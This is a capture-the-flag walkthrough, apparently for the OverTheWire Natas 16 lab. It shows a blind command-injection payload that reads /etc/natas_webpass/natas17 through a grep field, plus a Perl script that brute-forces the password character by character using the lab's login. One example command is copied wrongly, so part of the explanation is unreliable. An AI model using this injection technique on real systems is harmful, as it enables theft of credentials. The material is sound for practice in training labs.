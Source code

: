It turns the executed command into:

```bash
grep -i "$(grep ^a /etc/natas_webpass/natas17)"elephant dictionary.txt
```

If `/etc/natas_webpass/natas17` matches `/^a/` then the resulting command will be:

```bash
grep -i "aelephant" dictionary.txt
```

And if it does not begin with an `a` then it will not match, will be empty and the command will be

```bash
grep -i "aelephant" dictionary.txt
```

Which we know will match cause we know:

1. `elephant` is on the dictionary.
2. `alephant` is not.

So, to the batmobile!

```perl
#!/usr/bin/perl

use strict;
use warnings;
use v5.10;
use LWP::UserAgent;
use HTTP::Request::Common;

my $url = 'http://natas16.natas.labs.overthewire.org/index.php';
my $ua = LWP::UserAgent->new();


my $flag_found = 0;
my $flag = '';
my @possible_characters = split('', '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');

while (!$flag_found) {
	for(my $char_index = 0; $char_index < @possible_characters; $char_index++) {
		my $char = $possible_characters[$char_index];
		my $temp_flag = $flag . $char;
		my $payload = "\$(grep ^$temp_flag /etc/natas_webpass/natas17)elephant";

		print "Attempting $temp_flag\n";

		my $request = POST $url, Content => [ needle =>  $payload ];
		 
		$request->authorization_basic('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh');
		 
		my $response = $ua->request($request);
		if ($response->as_string() !~ /elephant/i) {
			$flag .= $char;
			print "Got part of flag as $flag                   \n";
			last;
		}
	}

	if (length($flag) == 32) {
		$flag_found = 1;
	}
}

say $flag;
```